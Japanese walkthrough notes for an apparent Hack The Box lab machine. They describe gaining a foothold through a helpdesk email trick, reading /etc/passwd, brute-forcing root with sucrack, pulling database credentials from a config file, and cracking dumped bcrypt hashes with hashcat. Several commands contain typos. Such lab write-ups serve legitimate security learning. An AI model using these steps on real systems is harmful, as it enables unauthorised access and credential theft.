

- namp
	- 22 ssh 
	- 80 http nginx 1.14.2
	- http-title: Welcome
- ブラウザで確認
- hostsファイルに10.10.10.222を追加
- helpdesk.delivery.htbも登録
- 「MatterMost server」はdelivery.htb:8065なのでこれもhostsファイルに登録する
- 「Mattermost」のログインページが表示される。Mattermost：チャットのようなもの
- ヘルプデスクのページに戻り
- 「osTicket」について調べる
- osTicketのgithubに行ってバージョンを列挙   
  
- 何種類かファイルを試してもバージョンを確認できない
- サポートページの「Check Ticket Status」で現在のステータスを確認する。「EmailAddress」「Ticket Number」を入力する
- 「Mattermost」のログインページでアカウントを作成
- email addressはサポートのアドレスを入力、ユーザー名とパスワードを入力して「Create Account」をクリック
- アドレスにアクセスしてメールを有効にするようにメッセージが届く
- アドレスにアクセスしてMattermostにログインする
- サーバーへの認証は maildeliverer:Youve_G0t_Maill!
- sshで接続に成功する
- 最も重要なメール配信者がいる4つのアカウントだけを抽出
```
cat /etc/passwd | grep -v 'false\nologin'
```

- PleaseSubscribe!とhashcatのルールでパスワードリストを作成する
```
vi pw
>>>>>PleaseSubscribe!(pwファイルに単語を登録しておく)
```

```
hashcat --stdout pw -r /usr/share/hachcat/rules/best64.rule > pwlist
```
- sshはrootのログインを許可しない設定になっていることが多い
```
less /etc/ssh/sshd_config
```
```
PermitRootLogin no
```
- 上記の記述が確認できる
- sucrackを使用して権限昇格をする
- sucrackとpwlistを対象端末に移動
```
sucrack -a -w 20 -s 10 -u root -r pwlist
Password is: PleaseSubscribe!21
```

- 別の特権昇格のやり方としてattermostは/optにあると思われるので/optにアクセスする
- mattermostのconfigディレクトリにconfig.jsonがあるので内容を確認してみる
- mysqlのユーザー名とパスワードが書いてあるので実行してみる
- MariaDBにアクセスできる
```
> show dataabses;
> use mattermost
> show tables;
> select * from Users;
> describe Users  (テーブルの構造を確認)
> select Id,Username,Password from Users;
```
- ユーザー名rootとパスワードのハッシュが取れたので解析してみる
- hashcatのモード一覧を表示させる
```
hashcat --example-hashes | less
```
- $2で始まるのはbcryptであるので3200になる
- モード3200を踏まえてhashcatを実行してみる
```
hashcat -m 3200 hash.txt pw -r /usr/share/hashcat/rules/abset64.rule
```
- パスワードが解読される
※既にクラックしたファイルを再度クラックする時は以下のコマンドを実行する
```
rm ~/.hashcat/hachcat.potfile
```